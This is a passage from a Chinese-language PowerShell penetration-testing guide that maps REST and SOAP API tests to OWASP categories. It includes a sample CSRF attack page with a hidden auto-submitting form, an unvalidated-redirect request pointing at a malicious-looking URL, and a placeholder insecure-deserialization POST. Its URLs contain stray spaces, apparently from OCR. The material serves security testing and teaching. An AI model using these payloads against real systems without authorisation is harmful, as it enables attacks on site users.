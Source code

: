 **方法**：在 PowerShell 中创建带有 CSRF 负载的恶意 HTML 页面，并欺骗用户与其交互。监控 API 响应以确定 CSRF 攻击是否成功。以下是一个示例：

```
 $html = @"
<html>
  <body>
    <form id="maliciousForm" action="http s:// api.snowcap cyber.com/action" method="POST">
      <input type="hidden" name="csrfToken" value="attackerToken">
    </form>
    <script>
      document.getElementById("maliciousForm").submit();
    </script>
  </body>
</html>
"@
```

## OWASP 分析 – 未验证的重定向和转发

**目标**：测试 API 中的未验证重定向和转发。

**方法**：使用 PowerShell 发送带有篡改过的重定向或转发 URL 的请求，并分析 API 是否允许未验证的重定向。例如，您可以测试未验证的重定向：

```
 $uri = "http s:// api.snowcap cyber.com/redirect?url=htt p://malici ous.com"
$response = Invoke-RestMethod -Uri $uri -Method GET
```

## OWASP 分析 – 不安全的反序列化

**目标**：评估 API 中的不安全反序列化漏洞。

**方法**：使用 PowerShell 发送带有恶意序列化对象的请求，并分析 API 是否尝试反序列化它们。以下是一个示例：

```
 $uri = "http s:// api.snowcap cyber.com/process-data"
$serializedPayload = "maliciousSerializedObject"
$headers = @{
    "Content-Type" = "application/xml"}
$response = Invoke-RestMethod -Uri $uri -Method POST -Headers $headers -Body $serializedPayload
```

在使用 PowerShell 进行 REST 渗透测试时，结合 OWASP 框架对于全面评估 Web 应用程序安全至关重要。PowerShell 的灵活性使得测试人员能够构造自定义请求和负载，并分析响应，以识别与 OWASP 前十名相关的漏洞，最终有助于更安全的应用程序开发和部署过程。在进行渗透测试时，始终确保您获得必要的权限并遵循道德准则。

# PowerShell 和 SOAP

在 PowerShell 中使用 **简单对象访问协议**(**SOAP**) 进行渗透测试，可以帮助评估依赖该协议的 Web 服务和 API 的安全性。SOAP 常用于应用程序之间的通信，对于识别漏洞至关重要。以下是如何在 PowerShell 中利用 SOAP 进行渗透测试，同时将分析与 OWASP 框架关联的指南。

## OWASP 分析 – 注入

**目标**：测试 SOAP 请求和响应中的注入漏洞。
